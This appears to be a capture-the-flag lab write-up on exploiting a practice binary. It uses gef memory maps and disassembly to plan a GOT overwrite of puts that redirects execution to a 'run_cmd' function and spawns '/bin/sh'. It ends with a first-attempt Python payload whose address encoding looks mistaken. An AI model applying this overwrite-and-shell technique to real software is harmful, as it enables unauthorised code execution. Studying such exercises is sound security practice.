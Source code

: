 
### Now, let's make sure this area is indeed writeable:
```
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/kali/Desktop/5-Week/git_got_good
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/kali/Desktop/5-Week/git_got_good
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/kali/Desktop/5-Week/git_got_good
```
So we can only write in these lines:
```
0x0000000000601000 - 0x0000000000602000
```

That's outside of the (executable) program code (which is good for them, things that are executable should not be writable)
###### Here's what that writeable memory looks like:
![[Pasted image 20240303185802.png]]
Notice that it does contain those third party library calls.
Can I overwrite one of those calls?

At `0x400800`, where that overwriting happens, the only system call we have left is a `puts`
```
gef➤  disas main
Dump of assembler code for function main:
   ...omitted for brevity...
   0x00000000004007ef <+132>:   call   0x4005e0 <printf@plt>
   0x00000000004007f4 <+137>:   mov    rcx,QWORD PTR [rbp-0x10]
   0x00000000004007f8 <+141>:   mov    rax,QWORD PTR [rbp-0x20]
   0x00000000004007fc <+145>:   mov    rdx,QWORD PTR [rbp-0x18]
=> 0x0000000000400800 <+149>:   mov    QWORD PTR [rcx],rax
   0x0000000000400803 <+152>:   mov    QWORD PTR [rcx+0x8],rdx
   0x0000000000400807 <+156>:   lea    rax,[rbp-0x20]
   0x000000000040080b <+160>:   mov    rdi,rax
   0x000000000040080e <+163>:   call   0x4005b0 <puts@plt>
   ...omitted for brevity...
End of assembler dump.
```
So can I overwrite puts?

With that in mind, how do I build a payload?
```
addr(puts)             addr(run_cmd)            [command text]
                       At rcx+8                 at rcx
RCX                     RDX                      RAX                
[rbp-8] - [rbp-16]      [rbp-16] - [rbp-24]      [rbp-24] - [rbp-32]
```
And that will have to be reversed in the payload, giving us the following
```
[Command Text] [Address of `run_cmd`] [Address of `puts`]

cmd    = "/bin/sh" = 2F 62 69 6E 2F 73 68 = p64(0x68732F6E69622F)
rcAddr = 0x0040074b = p64(0x4B07400000000000) 
pAddr  = 0x00601018 = p64(18106000000000000)
```
Must use `/bin/sh` for my command because `cat flag.txt` would be too long to fit in that space
##### Attempt 1:
###### Code
```python
def pld():
	cmd = p64(0x68732F6E69622F)
	rcAddr = p64(0x4B07400000000000)
	pAddr  = p64(18106000000000000)
	return cmd + rcAddr + pAddr

```